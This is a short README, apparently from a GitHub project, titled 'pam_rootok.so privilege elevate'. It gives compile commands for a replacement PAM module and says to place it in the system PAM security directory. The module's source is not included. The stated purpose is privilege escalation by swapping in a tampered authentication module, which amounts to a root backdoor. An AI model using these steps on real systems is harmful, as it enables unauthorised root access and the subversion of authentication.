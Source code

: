 ## pam_rootok.so privilege elevate

### compile

```
apt-get install libpam0g-dev 
# or yum install gcc pam-devel
gcc -fPIC -fno-stack-protector -c pam_rootok.c
ld -x --shared -o pam_rootok.so pam_rootok.o
```

then put it in 

```
/lib/*/security
```

Note: only test on debian 9 x64. 



### Refer

https://github.com/linux-pam/linux-pam

